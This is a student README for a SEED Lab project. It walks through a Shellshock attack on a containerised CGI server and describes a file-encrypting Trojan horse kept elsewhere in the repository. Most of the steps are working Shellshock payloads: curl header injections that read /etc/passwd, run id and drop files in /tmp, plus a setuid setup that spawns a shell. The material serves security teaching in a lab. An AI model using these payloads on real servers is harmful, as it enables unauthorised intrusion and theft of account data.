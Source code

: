 
## Work Description

- Shellshock Attack with Reverse Shell <br/>
- Local Client and Server using Socket Programming to demonstrate Trojan Horse Attack <br/>
- Mini Implementation of Trojan Horse to encrpt user all files and to decrypt it with key<br/>

## Prerequisite

- SEED Lab <br/>
- Pyhton3 Install in Virtual machine<br/>
- Cryptography module for encryption module <br/>
- Fernet module of python for encryption & decryption <br/> 


## Steps to Run the ShellShock Attack:

1. ---DNS Setting---<br/>
Check for DNS settings for shellshock Attack using command ```less /etc/hosts```.<br/>
2. ---Container Setup---.<br/>
Go in Lab setup and open terminal See if any container is running -> ```docker container list```.<br/>
See if any image is there -> ```docker image list```.<br/>
If you find difficulty For help type command ```docker run --help``` For conatiner help -> ```docker container --help```.<br/>
3. ---Build the container image---<br/>
Build and Run the Docker Compose using ```docker-compose build``` command in the folder after downloading labsetup files.<br/>
4.---Verify---<br/>
Run ```docker-compose up``` to set a trap at apache seed lab it will wait for victim. Check if victim is running ```dockps``` and run docker exec -> ```docksh```.<br/>
5. ---Web Server and CGI---<br/>
Check wheather the getenv and vul.cgi is present using ```ls /usr/lib/cgi-bin/``` <br/>
To check shell shock attack is possible or not I have created two C files ```listcommand.c``` and ```getpid.c``` to check wheather we can get victims shell access.<br/>
6. Run ```sudo cp bash_shellshock /bin/``` to run vulnerable shellshock shell.<br/>
Change permissions using ```sudo chown root vul``` and ```sudo chmod 4755 vul```.<br/>
7. Export a vulnerable function for instance ```export foo='() { echo "normal"; }; /bin/sh'``` and run it using ```./vul```.<br/>
8. ---Passing Data---<br/>
Once we have shell access of user we can use diffrent commands such as ```curl -v www.seedlab-shellshock.com/cgi-bin/getenv.cgi``` to run files which we have created in labsetup folder in webserver using victims shell.<br/>
We can run several command like ```curl -H, e, and A``` to get diffrent infoirmation about users like passwords files or environment variables of victims.<br/> 
To get password file run  ```curl -A"() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/passwd" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```.<br/> 
You can verify in victims terminal by running ```cat /etc/passwd```<br/>
To get user process id and pid and gpid run ```curl -e "() { echo hello; }; echo Content_type: text/plain; echo; /bin/id" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi```<br/>
9. We can create a virus folder in victim using ```curl -H "ATTACK: () { echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/virus" http://www.seedlab-shellshock.com/cgi-bin/vul.cgi``` using this folder we will inject our malicious python scripty to encrypt and decrypt users important files. <br/> To check for folder in victims  run ```ls/tmp``` <br/>
10. Finally we can implement our trojan horse attack using the pyhton script uploaded in my github branch.<br/> 

Close lab close container  by ```docker-compose down``` <br/>

- Note:  If you have any concern reach me out and if you want contribute kindly open a pull request.


## Reference

- For the implementation of shellshock, seedlab setup is used (https://seedsecuritylabs.org/Labs_20.04/Web/Shellshock/).<br/>
- I have made changes in the docker-compose of the project and also creted several C files to get key information about users like PID GPID or to display users files and folders.<br/>
- The implmentation of trojan horse to encrpy and decrpt files in local Client and server using socket programming is created by me<br/>

## Author

- Fahad Patel - 110085698


